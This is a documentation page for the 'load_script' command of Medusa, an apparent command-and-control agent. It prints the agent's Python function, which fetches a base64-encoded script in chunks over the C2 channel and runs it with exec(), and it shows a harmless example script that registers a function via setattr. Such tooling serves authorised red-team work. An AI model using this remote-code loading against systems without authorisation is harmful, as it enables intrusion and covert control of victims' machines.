 +++
title = "load_script"
chapter = false
weight = 100
hidden = false
+++

## Summary

This loads a new script into memory via the C2 channel. It can be used in combination with the `eval_code` function, and `setattr()` to dynamically add capability outside of Medusa's existing functions.  

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### file

- Description: script file to load into agent
- Required Value: True  
- Default Value: None  

## Usage

```
load_script
```

## Detailed Summary

The python script is downloaded and executed using the Python `exec()` function. Notably, this implementation implements chunking for this function to facilitate large scripts being loaded.

Depending on the script content being interpreted, you can include functions that may be called later, using the `setattr()` function and Medusa's `eval_code` function.

Firstly, the function itself:

```Python
    def load_script(self, task_id, file):
        total_chunks = 1
        chunk_num = 0
        cmd_code = ""
        while (chunk_num < total_chunks):
            if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                return "Job stopped."
            data = { "action": "post_response", "responses": [
                    { "upload": { "chunk_size": CHUNK_SIZE, "file_id": file, "chunk_num": chunk_num }, "task_id": task_id }
                ]}
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            cmd_code += base64.b64decode(chunk["chunk_data"]).decode()
            
        if cmd_code: exec(cmd_code)
        else: return "Failed to load script"

```

If we pass a script like the one below to Medusa, it'll print `hello` immediately. Then, as we've registered our `hello_again` function, we can call it again with the Medusa command: `eval_code self.hello_again()`. This will then execute the second print statement, to display `hello again`. A very simple example, but hopefully one that articulates what's possible here.

```
print("hello")

def hello_again(self):
    print("hello again")

setattr(medusa, "hello_again", hello_again)
```

{{% notice warning %}}
 Script content must be compatible with the version of Python the agent is running with!
{{% /notice %}}
 